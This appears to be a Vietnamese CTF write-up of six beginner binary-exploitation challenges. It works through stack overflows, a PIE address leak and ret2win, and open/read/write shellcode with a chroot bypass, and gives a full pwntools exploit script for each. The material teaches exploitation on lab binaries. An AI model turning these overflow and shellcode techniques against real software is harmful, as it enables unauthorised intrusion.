## Introduction
Đây là write up các bài pwn mình đã giải lại khi kết thúc giải này, mong mọi người đọc và góp ý ạ.

## string man
> I will check the key word so don't enter it.
> 
> Author: kiwi

Ở challenge này, ta được cho 1 file binary có tên là `main`.  Mình sẽ dùng ida reverse lại để xem chương trình hoạt động như thế nào.



Chương trình yêu cầu ta nhập vào data cho `buf`. Sau đó nó sẽ dùng giá trị của `buf` để tính toán giá trị với 2 hàm `strncmp` và `strstr`.

Sau khi mình đọc manual của 2 hàm đó, có thể thấy 2 hàm đó sẽ hoạt động như sau:
- **strncmp(buf, "SHELL", 4uLL)**: so sánh 4 kí tự đầu tiên của `buf` với chuỗi `"SHELL"`
- **strstr(buf, "SHELL")**: tìm trong `buf` xem có chuỗi `"SHELL"` không.

Như vậy nếu 4 kí tự đầu tiên ta nhập vào `buf` là `"SHEL"` thì chương trình sẽ `exit`. Sau đó nó lại tiếp tục tìm xem trong `buf` có tồn tại chuỗi `"SHELL"` hay không, nếu có thì chúng ta sẽ chiếm được `SHELL`. 

Như vậy đối với challenge này, chúng ta chỉ cần nhập vào 1 chuỗi bất kì khác `"SHEL"` ở đầu và tiếp sau đó là `"SHELL"`, ví dụ như `"ASHELL"`.

**Flag: W1{5tr5tR_1s_d@n93r0u51...9}**

---
## ret2win
>Simple pwnable challenge
>
>Author: kiwi

Ở challenge này, ta được cho 1 file binary có tên `ret2win`. Mình sẽ checksec và tiếp tục sử dụng ida để reverse chương trình lại để xem nó hoạt động như thế nào.

```shell
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
Debuginfo:  Yes
```



Như ta có thể thấy chương trình yêu cầu ta nhập vào tối đa 100 kí tự nhưng `buf` chỉ chứa tối đa 40 kí tự nên ta có lỗi `buffer` ở đây (vì canary không bật nên ta có thể buffer over flow cho challenge này).

Tiếp theo là nó sẽ gọi hàm win với tham số truyền vào là `v5`. Ta sẽ xem thử hàm win này nó hoạt động như thế nào.



Ta thấy chương sẽ đọc `flag` ở `flag.txt` và lưu vào `ptr`. Sau đó nó sẽ kiểm tra nếu giá trị tham số ta truyền vào bằng `0xDEADBEEFDEADBEEF` thì nó sẽ in `flag` ra.

Như vậy, mình sẽ lợi dụng lỗi `buffer` ở trên để thay đối giá trị cho `v5`. Mình sẽ tìm `offset` tới `v5` là bao nhiêu.

```shell
gef➤  pattern search $rbp-0x8
[+] Searching for '6661616161616161'/'6161616161616166' with period=8
[+] Found at offset 40 (little-endian search) likely      
```

Như vậy sau kí tự 40 ta nhập vào sẽ là giá trị ta truyền vào cho `v5`. 

Đây là script mình viết cho bài này:

```python
from pwn import *

exe = ELF("./ret2win", checksec=False)
p = process(exe.path)

payload = b'A' * 40
payload += p64(0xDEADBEEFDEADBEEF)

p.sendlineafter(':', payload)

output = p.recvall().decode(errors="ignore")
print(output)
```

**Flag: W1{v@ri@3l3_0v3RfL0vv}**

---
## babybof
>Solve my easy babybof challenge.
>
>Author: nhuhoang

Ở challenge này, ta được cho 1 file binary có tên `babybof`. Mình sẽ checksec và tiếp tục sử dụng ida để reverse chương trình lại để xem nó hoạt động như thế nào.

```shell
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```



Tương tự như challenge `ret2win`, chương trình yêu cầu ta nhập vào tối đa `100 bytes` nhưng `buf` chỉ lưu tối đa `4*8=32bytes`. Nên ta có 1 lỗi `buffer` ở đây (vì canary không bật nên ta có thể buffer over flow).



Khi xem danh sách các hàm ta thấy có 1 hàm `secret` ở đây. Nhìn qua nó vẫn sẽ đọc `flag` từ file `flag.txt` và in ra `flag` khi tham số ta truyền vào hàm là có giá trị là `0xDEADBEEFDEADBEEF`.

Ban đầu mình đã thử gọi tới hàm `secret` và tìm các `gadget` (tham số đầu tiên là `rdi`) để truyền tham số vào. Tuy nhiên nhìn các `gadget` có vẻ nhìn không khả quan cho lắm.

```shell
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/FreshMan/Pwnable/babybof$ ropper --f babybof | grep "rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000401348: add byte ptr [rax], al; mov rdi, rax; call 0x10c0; nop; leave; ret; 
0x000000000040128e: add byte ptr [rax], al; mov rdi, rax; call 0x1110; nop; pop rbp; ret; 
0x0000000000401345: add eax, 0xcd5; mov rdi, rax; call 0x10c0; nop; leave; ret; 
0x0000000000401344: lea eax, [rip + 0xcd5]; mov rdi, rax; call 0x10c0; nop; leave; ret; 
0x0000000000401343: lea rax, [rip + 0xcd5]; mov rdi, rax; call 0x10c0; nop; leave; ret; 
0x000000000040134a: mov rdi, rax; call 0x10c0; nop; leave; ret; 
0x0000000000401290: mov rdi, rax; call 0x1110; nop; pop rbp; ret; 
0x00000000004011a6: or dword ptr [rdi + 0x404058], edi; jmp rax; 
0x00000000004011a6: or dword ptr [rdi + 0x404058], edi; jmp rax; nop; ret;  
0x000000000040100b: shr dword ptr [rdi], 1; add byte ptr [rax], al; test rax, rax; je 0x1016; call rax; 
```

Nhìn đơn giản hơn ta thấy ta chỉ cần gọi hàm 1 lần để có thể load `flag` từ `flag.txt` vào `flag` :). Sau đó chỉ cần gọi lại hàm nhưng sau phần so sánh tức là tại `puts(flag)`. Như vậy nó sẽ in `flag` ra.

Đầu tiên mình sẽ DEBUG tìm địa chỉ của hàm `secret` (hoặc sử dụng pwntools gọi symbol) và địa chỉ sau phần so sánh tham số (`a1`). 

```shell
gef➤  p secret
$1 = {<text variable, no debug info>} 0x40129b <secret>
```

Địa chỉ secret: 0x40129b

```shell
gef➤  disas secret
Dump of assembler code for function secret:
   0x000000000040129b <+0>:     endbr64
   0x000000000040129f <+4>:     push   rbp
   0x00000000004012a0 <+5>:     mov    rbp,rsp
   0x00000000004012a3 <+8>:     sub    rsp,0x10
   0x00000000004012a7 <+12>:    mov    QWORD PTR [rbp-0x8],rdi
   ...
   0x000000000040132c <+145>:   cmp    QWORD PTR [rbp-0x8],rax
   0x0000000000401330 <+149>:   jne    0x401343 <secret+168>
   0x0000000000401332 <+151>:   lea    rax,[rip+0x2d87]        # Mình phần so sánh ở ngay trên nên mình sẽ đặt ở đây
   0x0000000000401339 <+158>:   mov    rdi,rax
   0x000000000040133c <+161>:   call   0x4010c0 <puts@plt>
   0x0000000000401341 <+166>:   jmp    0x401352 <secret+183>
   0x0000000000401343 <+168>:   lea    rax,[rip+0xcd5]       
   0x000000000040134a <+175>:   mov    rdi,rax
   0x000000000040134d <+178>:   call   0x4010c0 <puts@plt>
   0x0000000000401352 <+183>:   nop
   0x0000000000401353 <+184>:   leave
   0x0000000000401354 <+185>:   ret
End of assembler dump.
gef➤  
```

Địa chỉ gọi hàm lần thứ 2: 0x401332

Sau đó mình sẽ tìm offset ghi đè tới `rip`.

```shell
gef➤  pattern search $rbp
[+] Searching for '6561616161616161'/'6161616161616165' with period=8
[+] Found at offset 32 (little-endian search) likely
```

Vì `rip` ngay sau `rbp` nên mình sẽ cộng thêm 8 bytes là 40 bytes.

Và đây là script mình viết cho bài này:

```python
from pwn import *

exe = ELF("./babybof", checksec=False)
p = process(exe.path)

payload = b'A' * 40
payload += p64(exe.symbols['secret'])
payload += p64(0x401332)

p.sendlineafter(':', payload)

output = p.recvall().decode(errors="ignore")
print(output)
```

**Flag: W1{Y0Ur_firSt_8@8yb0f_TH@t_DOU81In9_ReTurN}**

---
## orw
>Write your shellcode to read content in /home/user/flag.txt
>
>Author: nhuhoang

Ở challenge này, ta được cho 1 file binary có tên `orw`. Và khi run thử thì nó yêu cầu ta nhập shellcode sau đó thực hiện shellcode đó. Đầu tiên mình sẽ vẫn thử reverse lại chương trình bằng ida để xem nó hoạt động như thế nào.



Và thật sự là sau khi ta nhập vào shellcode thì nó sẽ run shellcode đó. Mình sẽ kiểm tra thử thông tin file để code shellcode cho phù hợp (32bit hoặc 64bit).

```shell
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/FreshMan/Pwnable/orw$ file orw
orw: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4f1fdf2df9cde5aef8f2aa40cd8a6b40aaaf5737, for GNU/Linux 3.2.0, not stripped
```

Và như vậy file binary này dùng 64bit. Có thể thấy ở đầu bài cho ta path chứa `flag`. Mình sẽ sử dụng các [**syscall**](https://x64.syscall.sh/) `open` để mở file và `read` `write` để đọc flag và in ra.

Sau đây là script nhập shellcode cho challenge này:

```python
from pwn import *

exe = ELF("./orw", checksec=False)
p = process(exe.path)

context.arch = 'amd64'

shellcode = asm(
    """
    mov rbx, 0x0000000000747874     #txt
    push rbx
    mov rbx, 0x2e67616c662f7265   #.galf/re
    push rbx
    mov rbx, 0x73752f656d6f682f   #su/emoh/
    push rbx
     
    mov rdi, rsp                  #rdi = /home/user/flag.txt
    xor rsi, rsi                  #rsi = 0
    xor rdx, rdx                  #rdx = 0
    mov rax, 2                    # syscall: open
    syscall

    mov rdi, rax                  # rdi = fd
    mov rsi, rsp                  # rsi = buffer
    mov rdx, 0x100                # rdx = length
    xor rax, rax                  # syscall: read (rax = 0)
    syscall

    mov rdi, 1                    # rdi = stdout
    mov rax, 1                    # syscall: write
    syscall
    """, arch='amd64'
)

p.sendlineafter(':', shellcode)
output = p.recvall().decode(errors="ignore")
print(output)
```

**Flag: W1{0P3n_RE@d_Wr!73_$Hel1coDE}**

---
## sandbox
>Know escape my sandbox
>
>Author: nhuhoang

Ở challenge này, ta được cho 1 file binary có tên `sandbox`. Mình sẽ thử reverse lại và xem thử nó hoạt động như nào.



Tương tự như challenge `orw`, ta lại có 1 challenge shellcode ở đây, tuy nhiên ta có thể thấy trước khi shellcode thực hiện có 2 hàm `sandbox` và `privileged` ở đây. Mình sẽ đi vào phân tích thử.



Ta có thể thấy trong hàm `sandbox` có `chroot("/home/user/jail")`. Sau khi mình đọc manual thì hàm này sẽ đặt `/home/user/jail` làm thư mục gốc mới. 



Tiếp theo là hàm `privileged`. Nhìn qua ta có thể thấy hàm này sẽ hạ quyền ta thành user thường. Tức ta có không có đủ quyền để chroot lại thư mục gốc như cũ.

Đầu tiên mình sẽ dựa vào `Dockerfile` từ challenge để phân tích xem thử có thông tin gì.

```Dockerfile
FROM ubuntu:24.04

RUN apt-get update && apt-get install socat -y netcat-openbsd adduser

RUN adduser --disabled-password --gecos "" user

WORKDIR /home/user

COPY ./jail ./jail
COPY ./sandbox ./chall
COPY ./flag.txt ./flag.txt
RUN chmod 755 ./chall && \ 
    chown ubuntu:ubuntu ./flag.txt && \
    chown ubuntu:ubuntu /home/user && \ 
    chmod 755 ./flag.txt

WORKDIR /
USER root
EXPOSE 1337

ENTRYPOINT ["socat", "TCP-LISTEN:1337,reuseaddr,fork", "EXEC:/home/user/chall"]
```

Ta có thể thấy:
- file flag.txt sẽ được lưu ở `/home/user/flag.txt`. 
- `WORKDIR` khi ta exec file sẽ là `/` tức là thư mục gốc.
- File được run với quyền root, tuy nhiên khi run file thì file lại tự hạ quyền xuống user thường nên thông tin này không có ý nghĩa gì cả.

Do `chroot` chỉ ảnh hưởng lên các `absolute path` nên ý tưởng ban đầu của mình là `chdir` tới `/` tức là `/home/user/jail` sau khi `chroot`. Sau đó sử dụng open read write syscall với địa chỉ `../flag.txt` để in ra `flag`.

 Nah nah đời không êm đềm như mình nghĩ, do mình không đọc kỹ manual nên đã skip 1 thông tin rất quan trọng đó là khi mình đã mount vào thư mục mà `chroot` rồi thì không back lại được nữa (hoặc có skill nào đó mình không biết:). Nhưng mà mình vẫn có thể thao tác khi đang ở ngoài vùng `chroot`. Vì vậy mình sẽ open read write tới `home/user/flag.txt` (không có '/' ở đầu và mình cũng đã quên mất tới trường hợp này:3). 

Và đây là script mình viết cho challenge này:

```python
from pwn import *

exe = ELF("./sandbox", checksec=False)
p = remote('127.0.0.1', 1337)

context.arch = 'amd64'

shellcode = asm(
    """
    mov rbx, 0x7478
    push rbx

    mov rbx, 0x742e67616c662f72
    push rbx

    mov rbx, 0x6573752f656d6f68
    push rbx
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2                    # syscall: open
    syscall

    mov rdi, rax                  # rdi = fd
    mov rsi, rsp                  # rsi = buffer
    mov rdx, 0x100                # rdx = length
    xor rax, rax                  # syscall: read (rax = 0)
    syscall

    mov rdi, 1                    # rdi = stdout
    mov rax, 1                    # syscall: write
    syscall
    """, arch='amd64'
)

p.sendlineafter(': ', shellcode)
output = p.recvall(timeout=3)
print(output.decode(errors="ignore"))

p.interactive()
```

**Flag: W1{I_THink_!_Mak3_MI57AKE_WHEN_Cr34Te_SANdboX}**

---
mission possible
---
Ở challenge này, ta được cho 1 file binary có tên `mission_possible`. Mình sẽ thử checksec và reverse lại và xem thử nó hoạt động như thế nào.

```shell
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```



Nhìn qua ta có thể chương trình cho ta chọn những option để tạo note... Mình sẽ đi qua các hàm khác nữa để phân tích kĩ hơn.



Đầu tiên là hàm `secret_function`, để ý thấy hàm này sẽ được gọi khi ta nhập vào option là `1337`. Nếu `password` = `0xDEADBEEFDEADBEEF` thì ta sẽ leak được địa chỉ của hàm `main`.



Tiếp theo là hàm `create_note`. Hàm này sẽ yêu cầu ta nhập vào input cho note. Ta thấy biến `buf` được cho 72byte và ta cũng chỉ được nhập vào tối đa 72byte. Oge không có lỗi buffer ở đây tuy nhiên ta thấy có hàm `memcpy` nó sẽ copy data từ `buffer` sang `note` với số kí tự là số kí tự của `buffer` nên nó copy hết luôn. Và mình đã thử tìm thì thấy offset của `password` là 64. Như vậy khi nhập vào buffer hơn 64 kí tự thì những kí tự tiếp theo sẽ ghi đèn lên password, như vậy ta có thể ghi đè vào `password` giá trị mong muốn và có thể leak được địa chỉ hàm `main`.



Tiếp theo là hàm `dont_look_at_me_function`. Nếu ta call được hàm này ta sẽ nhận được flag. Vì `PIE` bật nên ta cần leak main sau đó tìm base address của chương trình bằng cách trừ đi offset của hàm main. Sau đó cộng với offset của hàm `dont_look_at_me_function` để tìm địa chỉ của hàm này.

Offset của:
- mai: `0x1289`
- dont_look_at_me_function: `0x1531`




Và cuối cùng là hàm `uncompleted_function`. Nhìn qua ta thấy hàm này yêu cầu ta nhập input vào `buf` tuy nhiên `buf` chỉ có 64bytes nhưng ta có thể nhập tới 256bytes nên ta có 1 lỗi buffer ở đây. Ta có thể dựa vào lỗi này để gọi tới hàm `dont_look_me_at_function`. Và offset mình tìm được là 72 (vì canary không bật nên ta có thể buffer over flow).

Đây là tóm gọn lại các bước mình sẽ thực hiện cho challenge này:
- Đầu tiên mình sẽ chọn option 1 để overwrite `password`
- Sau đó gọi `secret_function` bằng cách nhập `1337` ở phần nhập option để leak được địa chỉ hàm `main`
- Cuối cùng chọn option 2 để gọi tới `uncompleted_function` sau đó tính địa chỉ của `dont_look_me_at_function` để gọi nó và nhận được `flag`.

Và đây là script mình viết cho challenge này:

```python
from pwn import *

exe = ELF("./mission_possible", checksec=False)
p = process(exe.path)

p.sendlineafter('>>', '1')

payload = b'A' * 64
payload += p64(0xDEADBEEFDEADBEEF)
p.sendlineafter('text', payload)

p.sendlineafter('>>', '1337')

leak_main = p.recvline_contains(':').strip().split(b' ')[-1]

p.sendlineafter('>>', '2')

payload =  b'A' * 72
payload += p64(int(leak_main, 16) - 0x1289 + 0x1531)

print(hex(int(leak_main, 16) - 0x1289 + 0x1531))

p.sendlineafter(': ', payload)

output = p.recvall().decode(errors="ignore")
print(output)
```

**Flag: W1{51mp13_1e@k_4_yU@hyat%#}**